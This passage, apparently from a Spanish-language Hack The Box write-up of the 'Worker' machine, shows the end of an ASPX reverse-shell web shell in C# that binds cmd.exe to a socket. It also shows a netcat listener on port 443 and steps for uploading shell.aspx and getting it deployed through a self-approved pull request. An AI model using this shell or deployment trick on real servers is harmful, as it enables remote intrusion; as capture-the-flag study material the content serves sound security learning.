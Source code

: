 ```asp
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101;
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
    }

    protected void SpawnProcessAsPriv(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
        SECURITY_ATTRIBUTES pSec = new SECURITY_ATTRIBUTES();
        pSec.Length = Marshal.SizeOf(pSec);
        sInfo.dwFlags = 0x00000101; 
        IntPtr DupeToken = new IntPtr(0);
        sInfo.hStdInput = oursocket;
        sInfo.hStdOutput = oursocket;
        sInfo.hStdError = oursocket;
        if (DupeToken == IntPtr.Zero)
            retValue = CreateProcess(Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        else
            retValue = CreateProcessAsUser(DupeToken, Application, "", ref pSec, ref pSec, true, 0, IntPtr.Zero, null, ref sInfo, out pInfo);
        WaitForSingleObject(pInfo.hProcess, (int)INFINITE);
        CloseHandle(DupeToken);
    }
    </script>
```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Subimos el fichero al proyecto a la rama creada

1. Intentamos ir a la url 
```bash
 http://alpha.worker.htb/shell.aspx 
```


Aqui vemos un **404**. Quiere decir que vamos a tener que hacer una pull request. Pinchamos a crear una solicitud de incorporacion de cambio.
Una vez esto echo vemos que podemos Establecer autocomplecion y que podemos aprovar el cambio. Esto quiere decir que tenemos el permisso de 
acceptar pull requests.
